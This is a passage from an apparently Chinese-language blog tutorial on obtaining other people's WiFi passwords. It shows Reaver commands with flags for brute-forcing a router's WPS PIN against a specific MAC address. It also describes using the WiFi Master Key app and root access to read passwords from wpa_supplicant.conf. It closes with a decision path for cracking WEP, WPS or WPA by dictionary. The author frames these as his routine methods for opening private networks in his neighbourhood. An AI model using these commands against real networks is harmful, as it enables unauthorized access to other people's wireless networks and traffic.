 4.	使用Reaver爆破
reaver 命令：            　　
`reaver -i mon0 -b mac -S -v`  
reaver命令参数:      
> -i 监听后接口名称     
> -b 目标mac地址       
> -S 使用最小的DH key（可以提高爆破速度）     
> -vv 显示更多的非严重警告     
> -d  即delay每穷举一次的闲置时间 预设为1秒         
> -c  指定频道可以方便找到信号，如-c　1 指定1频道  　
> -N 不发送NACK信息（如果一直pin不动，可以尝试这个参数）

终端执行：
```
reaver -i wlan0mon 20:DC:E6:D1:DE:E4 -N -vv -c 8 
```
### 获得KEY
![reaver](http://imglf6.nosdn.127.net/img/c09lVS9TR3YrUFp0MEpaVmEzalN0V2Jyc2Vzb0RjR2NmRTlwWnhSMnVaQlpGVEkwSlJPZWNRPT0.png?imageView&thumbnail=500x0&quality=96&stripmeta=0)
当Reaver暴力穷举出正确的pin码时，不管无线路由器的密码有多复杂，它都是手到擒来了。

## WIFI万能钥匙
### 简介
Wifi万能钥匙的使用十分简单，而且据我的个人经历，小区范围内私人使用的无线网络基本可以使用WIFI万能钥匙解开。要得到WIFI的密码，，只需要三步即可到位。
### 步骤
1.	打开WIFI万能钥匙，可以看到有钥匙图标的热点可以直接解开：
![WIFI_master](http://imglf5.nosdn.127.net/img/c09lVS9TR3YrUFp0MEpaVmEzalN0WXkyNVZ5TXRkRzZ2WElVVFc5WE9EWkxpM2dCZ25SUWRRPT0.png?imageView&thumbnail=500x0&quality=96&stripmeta=0)

2.	解开密码，连接上WIFI后，打开RE管理器（安卓手机下的文件管理器），进入如下路径（需要root权限）：`/data/misc/`
![RE](http://imglf3.nosdn.127.net/img/c09lVS9TR3YrUFp0MEpaVmEzalN0ZjlLblBVWkw1UVZLdjY2WWRxOFFWd3hLVVNxektXcjFRPT0.png?imageView&thumbnail=500x0&quality=96&stripmeta=0)

3.	打开wpa_supplicant.conf可以看到刚刚连接的WIFI的密码：
![cat_passwd](http://imglf3.nosdn.127.net/img/c09lVS9TR3YrUFp0MEpaVmEzalN0Y3FoMVQ1N00rZEZkWlBpL1FwMDBDTVVMd0hrSFlLVEVnPT0.png?imageView&thumbnail=500x0&quality=96&stripmeta=0)

## 总结
以上，是我平时取得WIFI密码的常用方法。

基本思路是：
先看万能钥匙能否解开，这个方式最简便
然后再看加密方式，WEP加密参考0x02，
若是WPA加密先看AP是否开启WPS,参考0x04，
否则只能跑字典，参考0x03。
